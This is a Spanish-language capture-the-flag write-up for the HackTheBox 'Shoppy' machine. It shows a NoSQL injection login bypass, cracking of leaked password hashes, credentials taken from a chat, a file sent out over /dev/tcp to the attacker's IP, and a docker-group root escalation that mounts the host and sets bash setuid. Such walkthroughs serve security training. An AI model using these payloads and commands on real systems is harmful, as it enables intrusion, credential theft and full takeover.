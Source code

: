 # 10.10.11.180 - Shoppy
![Shoppy](https://user-images.githubusercontent.com/96772264/214269366-d3d5cd68-b466-42c7-9e32-1eaaadffbcef.png)
-----------------------
# Part 1: Enumeración

Puertos abiertos 22, 80(http) y 9093:
En cuanto ponemos la IP sale http://shoppy.htb/ pero al no resolver el dominio da error, se soluciona poniendolo en el /etc/hosts.
```console
└─$ whatweb http://shoppy.htb    
HTML5, HTTPServer[nginx/1.23.1], JQuery
```
La web nos presenta una cuenta atras. 
![shoppy1](https://user-images.githubusercontent.com/96772264/214270005-ac9efc26-1da7-4891-9e7c-a1401cfedc08.PNG)

Si fuzeamos...
```console
└─$ wfuzz -t 200 --hc=404 --hl=7 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://shoppy.htb/FUZZ/
000000039:   200        25 L     62 W       1074 Ch     "login"
000000245:   302        0 L      4 W        28 Ch       "admin"
```
El codigo de error 404 es un "cannot /GET", el tipico de nginx.
Otra cosa de nginx esque funciona con javascript, asi que no fuzzearemos por extensiones php.

-----------------------
# Part 2: Nosqli

En /login nos encontramos un panel de registro. No tenemos credenciales asi que habra que tirar de inyecciones.
![shoppy2](https://user-images.githubusercontent.com/96772264/214270044-6f6d1612-a157-447b-b95b-2fce94a43aad.PNG)

```console
└─$ curl -s -X POST http://shoppy.htb/login -d "username=test&password=test"
Found. Redirecting to /login?error=WrongCredentials
```
Nginx suele usar nosqli, pero si intentamos una inyeccion se nos queda pillado:
```console
└─$ curl -s -X POST http://shoppy.htb/login -d "username=admin&password[$ne]=test"
└─$ curl -s -X POST http://shoppy.htb/login -H "Content-Type: application/json" \
-d $'{"username":"admin","password":{"$ne":""}}' -L
```
Ninguna funciona, otra inyeccion nosqli seria ```admin'||'1'=='1"``` equivalente a ```admin' or 1=1-- -``` del sql
Con esa ultima entramos al panel de administracion.
![shoppy3](https://user-images.githubusercontent.com/96772264/214270058-6bd78c48-e0f3-458a-9ec3-1bdbd9d4eeb9.PNG)

Hay un boton de "search for users", como no sabemos si hay mas gente a parte de admin repetimos la query ```admin'||'1'=='1"```, 
dandonos un boton de ver reporte:
```
{"_id": "62db0e93d6d6a999a66ee67a",
 "username": "admin",
 "password": "23c6877d9e2b564ef8b32c3a23de27b2"},
{"_id": "62db0e93d6d6a999a66ee67b",
 "username": "josh",
 "password": "6ebcea65320589ca4f2f1ce039975995"}
```
En crackstation nos crakean el 6e... como "remembermethisway"
Pero no nos sirve para ssh ```sshpass -p "remembermethisway" ssh josh@10.10.11.180```

-----------------------
# Part 3: Fuzzing y leak de creds

Si hacemos un fuzzing de subdominios con el diccionario clasico ```/usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt```
No ncontramos nada en cambio este:
```console
└─$ wfuzz -c --hl=7 -w $(locate bitquark-subdomains-top100000.txt) -H "Host: FUZZ.shoppy.htb" -u http://shoppy.htb/ -t 100
000047340:   200        0 L      141 W      3122 Ch     "mattermost"
```

mattermost.shoppy.htb nos presenta un panel de login. Entramos con las creds josh:rememberthisway
Es un chat, encontramos el mensaje en el canal "Development":
![shoppy4](https://user-images.githubusercontent.com/96772264/214270072-336bec7d-9478-483f-969d-3a7487afc0a0.PNG)

```console
Ey @jaeger, cuando estaba intentado instalar docket en la maquina empece a aprender C++ e hice un gestor de contraseñas.
Lo puedes testear si quieres, esta en la maquina 
```
En el canal "coffe-break" sale una tal jess enseñando a su gato Tigrou
En "deply-machine" nos dan las creds jaeger:Sh0ppyBest@pp!
```console
└─$ sshpass -p 'Sh0ppyBest@pp!' ssh jaeger@10.10.11.180 
```

-----------------------
# Part 4: leak de credenciales en binario

En el directorio /home de deply está ese script de C++ "password-manager.cpp"

Si enumeramos el sistema con mi script, acabamos con el resultado de ```sudo -l```
```(deploy) /home/deploy/password-manager```
```console
jaeger@shoppy:/tmp$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sh0ppyBest@pp!
Access denied! This incident will be reported !
```
Como ltrace y strace no existen, tiramos de strings:
```console
jaeger@shoppy:/tmp$ strings /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password:
Access granted! Here is creds !
cat /home/deploy/creds.txt
Access denied! This incident will be reported !

jaeger@shoppy:/tmp$ cat < /home/deploy/password-manager > /dev/tcp/10.10.14.14/666

Si recibimos el binario:
```console
└─$ sudo nc -nlvp 666 > password-manager
└─$ chmod +x password-manager
```
Abrimos el binario con ltrace y strace, no hallamos nada interesante, en cambio si intentamos leer
el codigo ensamblador con radare2

```
└─$ r2 password-manager
[0x00001120]> aaa
[0x00001120]> afl
[0x00001120]> s main
[0x00001205]> pdf
# Lineas mas adelante leemos:
0x0000129b      488d35bb0d00.  lea rsi, str.Sample         ; 0x205d ; u"Sample
```
Esto tambien se puede ver con strings si cabmiamos el encoding a little endian:
```
└─$ strings -e l password-manager
Sample
```
```console
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```
-----------------------
# Part 5: explotando docker

Nuestro usaurio deply forma parte del grupo "docker" (comando ```id```)
```console
deploy@shoppy:/tmp$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   6 months ago   5.53MB
```
La idea es crear un docker interactivo a partir de esa imagen al que montarle todo el sistema madre en una ruta para acceder a el por medio de 
ese contenedor
```
deploy@shoppy:/tmp$ docker run -it -v /:/mnt/root --name cucuxii alpine
/ # cd mnt
/mnt # ls
root
/mnt/root # ls
# Todo el sistema madre
/mnt/root/usr/bin # chmod u+s /mnt/root/usr/bin/bash
mnt/root/usr/bin # exit
deploy@shoppy:/tmp$ bash -p
bash-5.1# whoami
root
```


